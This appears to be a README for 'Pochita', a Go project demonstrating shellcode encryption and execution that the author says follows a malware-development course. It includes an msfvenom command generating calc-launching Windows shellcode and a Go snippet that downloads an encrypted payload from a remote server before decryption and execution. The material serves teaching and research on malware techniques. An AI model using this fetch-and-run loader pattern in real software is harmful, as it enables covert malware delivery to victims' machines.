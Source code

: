 # Pochita

![files](./Images/pochita.jpg)

I was motivated to create this project after completing Sektor7's Malware Essentials course. Despite the abundance of proofs-of-concept for C, there needed to be more readily understandable and easy-to-follow examples for Golang. This project aims to fill that gap by clearly demonstrating the encryption and shellcode execution process, as guided by Sektor7's course. It's important to note that this code is purely for demonstration purposes and is not intended to bypass anti-virus or endpoint detection and response software.

## Generating Shellcode

On your Linux terminal run the following command:

```
msfvenom -p windows/x64/exec CMD=calc -f raw > calc.bin
```

***Note:*** I compiled and moved the shellcode to the windows host to run `testing-encryptor.go` script to generate the `2ENC.bin`


## Method to the madness

1. Pull the encrypted file from a remote server
2. Unencrypt the file's contents into the world variable
3. 2 methods are currently in the code, so choose which one to test


Make sure to change the URL address.

```azure
func getFile() {
	// Make GET request to URL
	resp, err := http.Get("http://192.168.153.145:9090/2ENC.bin")
if err != nil {
		panic(err)
	}
	defer resp.Body.Close()
	// Create file on local file system
	//C:\\Users\\Public\\Downloads\\ENC.bin"
	file, err := os.Create("2ENC.bin")
if err != nil {
		panic(err)
	}
	defer file.Close()
```